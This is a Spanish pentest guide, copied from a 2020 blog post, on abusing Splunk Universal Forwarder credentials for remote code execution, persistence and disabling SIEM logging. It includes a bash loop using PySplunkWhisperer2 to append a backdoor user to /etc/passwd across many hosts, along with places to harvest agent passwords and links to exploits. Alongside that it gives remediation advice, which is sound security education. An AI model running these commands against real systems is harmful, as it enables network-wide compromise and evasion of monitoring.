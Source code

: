 Si al **enumerar** una máquina **internamente** o **externamente** encuentras que se está ejecutando Splunk (puerto 8090), si tienes **credenciales válidas**, puedes **abusar del servicio de Splunk** para **ejecutar una shell** como el usuario que ejecuta Splunk. Si se está ejecutando como root, puedes escalar privilegios a root.

Además, si ya eres root y el servicio de Splunk no está escuchando solo en localhost, puedes **robar** el archivo de **contraseñas** del servicio de Splunk y **descifrar** las contraseñas, o **agregar nuevas** credenciales. Y mantener la persistencia en el host.

En la primera imagen a continuación, puedes ver cómo se ve una página web de Splunkd.

**La siguiente información fue copiada de** [**https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/**](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

# Abusando de Splunk Forwarders para obtener shells y persistencia

14 de agosto de 2020

## Descripción: <a href="#description" id="description"></a>

El agente Splunk Universal Forwarder (UF) permite a los usuarios remotos autenticados enviar comandos o scripts únicos a los agentes a través de la API de Splunk. El agente UF no valida las conexiones que provienen de un servidor Splunk Enterprise válido, ni valida que el código esté firmado o que provenga del servidor Splunk Enterprise. Esto permite a un atacante que obtiene acceso a la contraseña del agente UF ejecutar código arbitrario en el servidor como SYSTEM o root, dependiendo del sistema operativo.

Este ataque está siendo utilizado por los Penetration Testers y es probable que los atacantes malintencionados lo estén explotando activamente. Obtener la contraseña podría llevar a la compromiso de cientos de sistemas en un entorno de cliente.

Las contraseñas de Splunk UF son relativamente fáciles de adquirir, consulte la sección Lugares comunes de contraseñas para obtener detalles.

## Contexto: <a href="#context" id="context"></a>

Splunk es una herramienta de agregación y búsqueda de datos que a menudo se utiliza como sistema de monitoreo de información y eventos de seguridad (SIEM). Splunk Enterprise Server es una aplicación web que se ejecuta en un servidor, con agentes, llamados Universal Forwarders, que se instalan en cada sistema de la red. Splunk proporciona binarios de agente para Windows, Linux, Mac y Unix. Muchas organizaciones usan Syslog para enviar datos a Splunk en lugar de instalar un agente en hosts Linux/Unix, pero la instalación de agentes se está volviendo cada vez más popular.

Universal Forwarder es accesible en cada host en https://host:8089. Acceder a cualquiera de las llamadas de API protegidas, como /service/ muestra una ventana de autenticación básica. El nombre de usuario siempre es admin, y la contraseña predeterminada solía ser changeme hasta 2016, cuando Splunk requirió que todas las nuevas instalaciones establecieran una contraseña de 8 caracteres o más. Como se puede ver en mi demostración, la complejidad no es un requisito ya que mi contraseña de agente es 12345678. Un atacante remoto puede realizar un ataque de fuerza bruta a la contraseña sin bloqueo, lo cual es una necesidad de un host de registro, ya que si la cuenta se bloquea, los registros ya no se enviarían al servidor Splunk y un atacante podría usar esto para ocultar sus ataques. La siguiente captura de pantalla muestra el agente Universal Forwarder, esta página inicial es accesible sin autenticación y se puede utilizar para enumerar hosts que ejecutan Splunk Universal Forwarder.

![0](https://eapolsniper.github.io/assets/2020AUG14/11\_SplunkAgent.png)

La documentación de Splunk muestra el uso de la misma contraseña de reenvío universal para todos los agentes, no recuerdo con certeza si esto es un requisito o si se pueden establecer contraseñas individuales para cada agente, pero según la documentación y la memoria de cuando era un administrador de Splunk, creo que todos los agentes deben usar la misma contraseña. Esto significa que si se encuentra o se descifra la contraseña en un sistema, es probable que funcione en todos los hosts de Splunk UF. Esta ha sido mi experiencia personal, lo que permite la compromiso de cientos de hosts rápidamente.

## Lugares comunes de contraseñas <a href="#common-password-locations" id="common-password-locations"></a>

A menudo encuentro la contraseña de texto sin formato del agente de reenvío universal de Splunk en las siguientes ubicaciones en las redes:

1. Directorio Sysvol/domain.com/Scripts de Active Directory. Los administradores almacenan el ejecutable y la contraseña juntos para una instalación eficiente del agente.
2. Comparticiones de archivos de red que alojan archivos de instalación de TI
3. Wiki u otros repositorios de notas de compilación en la red interna

La contraseña también se puede acceder en forma de hash en Program Files\Splunk\etc\passwd en hosts de Windows, y en /opt/Splunk/etc/passwd en hosts de Linux y Unix. Un atacante puede intentar descifrar la contraseña usando Hashcat, o alquilar un entorno de descifrado en la nube para aumentar la probabilidad de descifrar el hash. La contraseña es un hash SHA-256 fuerte y, como tal, es poco probable que se descifre una contraseña fuerte y aleatoria.

## Impacto: <a href="#impact" id="impact"></a>

Un atacante con una contraseña de agente de reenvío universal de Splunk puede comprometer completamente todos los hosts de Splunk en la red y obtener permisos de nivel SYSTEM o root en cada host. He utilizado con éxito el agente Splunk en hosts de Windows, Linux y Solaris Unix. Esta vulnerabilidad podría permitir la extracción de credenciales del sistema, la exfiltración de datos sensibles o la instalación de ransomware. Esta vulnerabilidad es rápida, fácil de usar y confiable.

Dado que Splunk maneja registros, un atacante podría reconfigurar el reenvío universal en el primer comando ejecutado para cambiar la ubicación del reenvío, deshabilitando el registro en el SIEM de Splunk. Esto reduciría drásticamente las posibilidades de ser detectado por el equipo Blue del cliente.

Splunk Universal Forwarder
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
Información del host:

Servidor Splunk Enterprise: 192.168.42.114\
Agente de reenvío de Splunk víctima: 192.168.42.98\
Atacante: 192.168.42.51

Versión de Splunk Enterprise: 8.0.5 (la última hasta el 12 de agosto de 2020, día de la configuración del laboratorio)\
Versión de Universal Forwarder: 8.0.5 (la última hasta el 12 de agosto de 2020, día de la configuración del laboratorio)

### Recomendaciones de solución para Splunk, Inc: <a href="#remediation-recommendations-for-splunk-inc" id="remediation-recommendations-for-splunk-inc"></a>

Recomiendo implementar todas las siguientes soluciones para proporcionar una defensa en profundidad:

1. Idealmente, el agente Universal Forwarder no tendría ningún puerto abierto, sino que consultaría al servidor Splunk a intervalos regulares para recibir instrucciones.
2. Habilitar la autenticación mutua TLS entre los clientes y el servidor, utilizando claves individuales para cada cliente. Esto proporcionaría una seguridad bidireccional muy alta entre todos los servicios de Splunk. La autenticación mutua TLS se está implementando ampliamente en agentes y dispositivos IoT, este es el futuro de la comunicación de cliente de dispositivo confiable con el servidor.
3. Enviar todo el código, archivos de una sola línea o de script, en un archivo comprimido que esté cifrado y firmado por el servidor Splunk. Esto no protege los datos del agente enviados a través de la API, pero protege contra la ejecución remota de código malicioso de un tercero.

### Recomendaciones de solución para los clientes de Splunk: <a href="#remediation-recommendations-for-splunk-customers" id="remediation-recommendations-for-splunk-customers"></a>

1. Asegurarse de que se establezca una contraseña muy fuerte para los agentes de Splunk. Recomiendo al menos una contraseña aleatoria de 15 caracteres, pero como estas contraseñas nunca se escriben, esto podría establecerse como una contraseña muy grande, como 50 caracteres.
2. Configurar firewalls basados en host para permitir solo conexiones al puerto 8089/TCP (puerto del agente Universal Forwarder) desde el servidor Splunk.

## Recomendaciones para el equipo Red: <a href="#recommendations-for-red-team" id="recommendations-for-red-team"></a>

1. Descargar una copia de Splunk Universal Forwarder para cada sistema operativo, ya que es un implante ligero y firmado. Es bueno tener una copia en caso de que Splunk realmente solucione esto.

## Exploits/Blogs de otros investigadores <a href="#exploitsblogs-from-other-researchers" id="exploitsblogs-from-other-researchers"></a>

Exploits públicos utilizables:

* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487

Publicaciones de blog relacionadas:

* https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
* https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2
* https://www.hurricanelabs.com/splunk-tutorials/using-splunk-as-an-offensive-security-tool

_**Nota:**_ Este problema es un problema grave con los sistemas de Splunk y ha sido explotado por otros probadores durante años. Si bien la ejecución remota de código es una característica prevista del agente Universal Forwarder de Splunk, la implementación de esto es peligrosa. Intenté enviar este error a través del programa de recompensa por errores de Splunk en la muy improbable posibilidad de que no estén al tanto de las implicaciones de diseño, pero se me notificó que cualquier envío de errores implementa la política de divulgación de Bug Crowd/Splunk que establece que no se pueden discutir públicamente detalles de la vulnerabilidad _nunca_ sin el permiso de Splunk. Solicité un plazo de divulgación de 90 días y me fue negado. Como tal, no divulgué esto de manera responsable ya que estoy razonablemente seguro de que Splunk es consciente del problema y ha optado por ignorarlo, siento que esto podría afectar gravemente a las empresas y es responsabilidad de la comunidad de la seguridad de la información educar a las empresas.
